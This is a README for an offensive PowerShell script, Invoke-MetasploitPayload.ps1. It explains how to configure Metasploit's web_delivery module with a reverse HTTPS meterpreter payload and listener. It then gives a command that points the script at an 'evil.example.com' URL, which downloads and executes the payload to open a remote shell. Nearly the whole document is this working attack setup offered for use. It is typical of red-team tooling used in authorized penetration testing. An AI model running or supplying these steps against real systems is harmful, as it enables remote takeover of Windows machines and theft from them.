 <h2 align="center">Invoke-MetasploitPayload.ps1</h2>
Invoke-MetasploitPayload is a Powershell script used to kick off a Metasploit payload. It relies on the exploit/multi/scripts/web_delivery Metasploit module.

#### The exploit/multi/scripts/web_delivery module
The web_delivery module generates a script for a given payload and then fires up a webserver to host said script. If the payload is a reverse shell, it will also handle starting up the listener for that payload. 

#### Example Usage
On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```
The SRVHOST and SRVPORT variables are used for running the webserver to host the script
```
set SRVHOST 0.0.0.0
set SRVPORT 8443
set SSL true
```
The `target` variable determines what type of script we're using. `2` is for PowerShell
```
set target 2
```
Pick your payload. In this case, we'll use a reverse https meterpreter payload
```
set payload windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
```
Run the exploit
```
run -j
```

Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.
#### Getting the Payload URL
After running the web_delivery module, it will print out the URL for the webserver hosting the script file. This will typically look like `http://[IP_OF_METASPLOIT_INSTANCE]/[RANDOM CHARACTERS]`. This URL is what you'll pass to `Invoke-MetasploitPayload`. _You can ignore the line about "Run the following command on the target machine"_

![Web Delivery Example](/web_delivery_screenshot.png)

#### Using Invoke-MetasploitPayload.ps1

Usage is simple, just pass the URL from the web_delivery module. Invoke-MetasploitPayload will handle spinning up a new process and then downloading and executing the script.

```
PS> Invoke-MetasploitPayload -url "http://evil.example.com/SDFJLWKS"
```

#### Acknowledgements

Invoke-MetasploitPayload is really just a repackaging of the PowerShell commands provided by the [web_delivery module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/script/web_delivery.rb) to download and execute the script. My hats off to those authors for their hard work.
